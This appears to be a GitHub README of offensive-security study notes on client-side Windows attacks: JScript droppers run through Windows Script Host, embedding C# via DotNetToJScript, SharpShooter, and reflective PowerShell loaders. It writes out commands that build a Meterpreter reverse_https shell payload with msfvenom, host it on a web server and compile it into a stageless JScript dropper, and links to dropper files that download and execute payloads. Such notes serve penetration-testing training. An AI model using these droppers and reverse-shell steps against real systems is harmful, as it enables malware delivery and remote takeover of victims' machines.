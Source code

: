## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.
Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

## Reflection powershell with pre-compiled C# assembly

Now we can use the same code to compile a new dll to used in powershell.
- 1.Create a New **Class Libary .NET Framework project**
- 2.use the same ttps and compile the [cs code](/ClientSideWithWindowsScriptHost/Class1.cs) into dll
- 3.create powershell [payload dropper] (/ClientSideWithWindowsScriptHost/reflectionRunner.ps1).
